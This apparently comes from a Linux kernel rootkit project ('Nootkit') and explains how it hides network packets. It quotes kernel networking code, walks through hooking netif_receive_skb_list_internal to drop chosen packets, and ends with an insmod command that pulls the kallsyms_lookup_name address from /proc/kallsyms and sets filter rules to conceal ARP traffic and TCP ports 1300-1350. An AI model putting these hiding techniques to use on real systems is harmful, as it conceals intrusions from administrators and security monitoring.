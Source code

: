 # Nootkit Section 5 - Hiding Packets

The network stack. I have no jokes at the moment might add some later.

Pretty much ALL of the relevant code which goes into packet RX/TX is explained well in
[this amazing document](https://blog.packagecloud.io/monitoring-tuning-linux-networking-stack-receiving-data/).
I want to thank the folks at Google, and God, for helping me find it.
The doc describes kernel version 3.13.0, however I'm assuming nothing much that is essential to the described structure
has changed.

(Boy, that assumption sure did prove itself [wrong](https://lwn.net/Articles/763056/))

## Packet RX Hook Location

Our goal here is to find a place where we can:

a. Place a filter for packet data.
b. Drop a packet or pass it along regularly.
c. Avoid as many registering mechanisms in the kernel to reduce the visibility of our filtered packets.

### `__netif_receive_skb_core`

This is the function which is (eventually) called by network device drivers and is responsible for
delivering skbs to protocol handlers. We can see it doing just that here:

```C
static int __netif_receive_skb_core(
    struct sk_buff **pskb,
    bool pfmemalloc,
    struct packet_type **ppt_prev)
{
    // ...

    /* Incrementing softirq counter, processing XDP generic BPF */
    __this_cpu_inc(softnet_data.processed);

    if (static_branch_unlikely(&generic_xdp_needed_key)) {
        int ret2;

        migrate_disable();
        ret2 = do_xdp_generic(rcu_dereference(skb->dev->xdp_prog), skb);
        migrate_enable();

        if (ret2 != XDP_PASS) {
            ret = NET_RX_DROP;
            goto out;
        }
    }

    /* Removing VLAN tag? */
    if (eth_type_vlan(skb->protocol)) {
        skb = skb_vlan_untag(skb);
        if (unlikely(!skb))
            goto out;
    }

    // ...

    /* packet delivery to registered protocol hanlers */
    list_for_each_entry_rcu(ptype, &ptype_all, list) {
        if (pt_prev)
            ret = deliver_skb(skb, pt_prev, orig_dev);
        pt_prev = ptype;
    }

    list_for_each_entry_rcu(ptype, &skb->dev->ptype_all, list) {
        if (pt_prev)
            ret = deliver_skb(skb, pt_prev, orig_dev);
        pt_prev = ptype;
    }
    // ...
}
```

Note: _Comments mine_

At first I though it could be nice to just integrate with the exported framework and add a
protocol handler in the `ptype_all` handler list using `dev_add_pack`. However, there is would be some stuff
happening before _and_ after handing packets to our handler, namely:

a. XDP (Generic) BPF seems to be called into action before the protocol handlers.
b. VLAN tags seem to be removed (what if we want to filter based on them?).
c. _Other_ protocol handlers aren't prevented from being called after ours.

So a protocol handler isn't the way - we aren't just another `AF_PACKET`. We have to go deeper. Or higher? Or lower. Many terms fit.
We could:

a. Hook `__netif_receive_skb_core`.
b. Find a function higher up the call stack to hook/integrate with.

Since our current function hooking method requires copying a hunk of the kernel source code to our module,
and I don't like that (since it requires more hacky kallsyms resolutions etc.), I'd rather try and find
another function.

### `netif_receive_skb`

This exported symbol is _the_ thing that gets called by specific drivers' packet RX code:

```C
/**
 *  netif_receive_skb - process receive buffer from network
 *  @skb: buffer to process
 *
 *  netif_receive_skb() is the main receive data processing function.
 *  It always succeeds. The buffer may be dropped during processing
 *  for congestion control or by the protocol layers.
 *
 *  This function may only be called from softirq context and interrupts
 *  should be enabled.
 *
 *  Return values (usually ignored):
 *  NET_RX_SUCCESS: no congestion
 *  NET_RX_DROP: packet was dropped
 */
int netif_receive_skb(struct sk_buff *skb)
{
    int ret;

    trace_netif_receive_skb_entry(skb);

    ret = netif_receive_skb_internal(skb);
    trace_netif_receive_skb_exit(ret);

    return ret;
}
```

It's exported (so always present, no inlining possible), has access to an skb before handing passing it to the rest of the
network stack, can drop packets, _and_ is rather short (hopefully we won't have to copy too many macros). I love it!

## Hooking `netif_receive_skb`

Again, as our current hooking method requires copying kernel code, we have to do as much work as the compiler
did inlining kernel functions. And for each inline we are hacking away by copying it's source code,
we have more ksyms to resolve to implement said inlined function.

A shame, but not one we'll endure forever - see my [proposed method for generic CISC hooking](./generic_CISC_hooking.md)
which I hope I'll get to implement here in `nootkit`, which would simplify hooking a lot.

But after fiddling around with it and getting it to compile, we get... nothing. Weird. Hooking `netif_receive_skb`
does nothing - we can place a jump to NULL at the start of the function and nothing happens.
And it is so also for `__netif_receive_skb`. Verifying that we are hooking the correct address did not help,
as it seems to be correct... Is it not truly called? Is something different now?

We can even make `__netif_receive_skb` just be a printk, and then call it from within the module, and it works.
It just isn't called by the system for some reason.

I have two ideas as to why this happens:

1. `netif_receive_skb` is not used by any driver on my VM - maybe `netif_rx` is used instead.
2. `netif_receive_skb` is only called from within the softirq kthreads - perhaps their memory is copy on write
    and our hooking did not affect their address spaces?

I tested the first theory by hooking `netif_rx` and failed.

The second theory sounds a little weird, but maybe? I'm not sure if it's possible, but don't have other explainations.

I decided to try the only true way to life - brute force. I set a hook to print stuff on every function which looked the part:

```C
hook_set(ksyms__kallsyms_lookup_name("__netif_receive_skb_core.constprop.0"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("__netif_receive_skb_list_core"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("netif_receive_skb_list_internal"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("netif_receive_skb_list"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("__netif_receive_skb_one_core"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("netif_receive_skb_core"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("__netif_receive_skb"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("netif_receive_skb"), &hooked);
```

And indeed packets stopped being received, and stuff was printed. Now we just have to find the culprits.
With a human binary search, it only took 3 tries! It's `netif_receive_skb_list_internal` which works.

But why?

Even hooking the damn `netif_receive_skb_list` which supposedly calls this internal thingy doesn't work.
The only other place that calls the internal is... `gro_normal_list`. GRO is that u again?
Welp turning off GRO didn't help, but was worth a try.

Anyway.

I'm guessing this `_list` thing is just a newer API, and ALLLL the new fancy drivers use it. I am slightly enraged,
but it brought with it a cathartic experience: The hook compiles and runs.

To drop a packet we can call:

```C
skb_list_del_init(skb);
continue;
```

From within the `list_for_each_entry_safe(skb, next, head, list)` for loop in `netif_receive_skb_list_internal`.
I found this out from following calls in the kernel source code until I saw this bit:

```C
static inline void __netif_receive_skb_list_ptype(struct list_head *head,
    struct packet_type *pt_prev,
    struct net_device *orig_dev)
{
    // ...
    list_for_each_entry_safe(skb, next, head, list) {
        skb_list_del_init(skb);
        pt_prev->func(skb, skb->dev, pt_prev, orig_dev);
    }
    // ...
}
```

Which seemed to be rather final in the flow. I can't tell for sure at the moment if we're not causing a memory leak,
but I'll leave that as a TODO for now.

## Implementation

For the end implementation see [src/hide/net_rx.c](../src/hide/net_rx.c).

I reused and updated the existing connection configuration mechanism to include all sorts of stuff we can filter packets by -
here for example is how we can filter out all ARP packets, in addition to packets directed to TCP destination ports 1300-1350:

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_packets=\" \
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1300-1350;, \
ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETHDST = 00:00:00:00:00:00; IPPROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535; \
\""
```
